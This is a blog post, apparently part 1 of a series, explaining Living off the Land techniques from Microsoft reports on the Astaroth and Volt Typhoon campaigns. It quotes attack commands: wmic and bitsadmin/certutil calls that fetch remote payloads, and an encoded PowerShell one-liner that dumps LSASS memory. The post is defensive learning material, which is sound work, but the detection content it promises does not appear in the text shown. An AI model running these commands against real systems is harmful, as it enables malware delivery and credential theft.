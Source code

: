 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.



### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
1. WMI
2. Bitsadmin
3. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"

Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"

certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```

![Astaroth](image.png)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. wmi
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 

```powershell
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64: rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full>
```

![alt text](image-1.png)
>  Volt Typhoon attack diagram
---
- Mshta
- Regsvr32
- Scheduled Tasks

